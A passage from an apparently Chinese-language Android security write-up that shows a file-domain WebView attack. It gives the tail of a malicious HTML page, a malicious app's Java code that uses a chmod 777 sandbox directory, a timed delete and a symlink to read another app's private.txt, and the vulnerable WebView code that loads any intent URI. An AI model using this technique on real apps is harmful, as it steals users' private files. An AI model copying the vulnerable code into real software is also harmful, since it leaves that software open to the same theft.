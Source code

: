 ```
}
setTimeout(loadDatabase(),8000); #延迟8秒执行。利用时间差和软链接来获取被攻击APP的私有文件
</script>
</html>
```  
  
  
构造恶意APP的攻击代码  
```
#恶意APP的攻击代码
  try {
          String HTML = "恶意APP的HTML,在上面的HTML代码";
          #新建文件夹，用于存放恶意HTML文件
           cmdexec("mkdir /data/data/mm.xxxxx.testdemo3/files");
           #将恶意HTML到恶意APP的沙盒目录
        cmdexec("echo \"" + HTML + "\" >  /data/data/mm.xxxxx.testdemo3/files/attack.html");
        #授权目录及其文件权限，允许其它应用访问
        cmdexec("chmod -R 777 /data/data/mm.xxxxx.testdemo3/files");
        Thread.sleep(1000);
        #启动被攻击的APP，并携带恶意HTML
        invokeVulnAPP("file://" + HTML_PATH);
        #延时6秒
        Thread.sleep(6000);
        #删除HTML文件
        cmdexec("rm " + HTML_PATH);
        #软链接文件，实现读取被攻击应用的private.txt文件
        cmdexec("ln -s " + "/data/data/mm.xxxxx.testdemo3/files/private.txt" + " " + HTML_PATH);
  } catch (Exception e) {
      // TODO: handle exception
  }
```  
  
  
目标样本：  
```
#被攻击的APP，有漏洞的代码
WebView webView = findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setAllowFileAccess(true);  允许加载File域

Intent i = getIntent();
if (i != null) {
     mUri = i.getData(); #取出了恶意HTML
}
if (mUri != null) {
    url = mUri.toString();
}
if (url != null) {
    webView.loadUrl(url); #加载了恶意HTML
}
```  
  
  
实现效果：  
  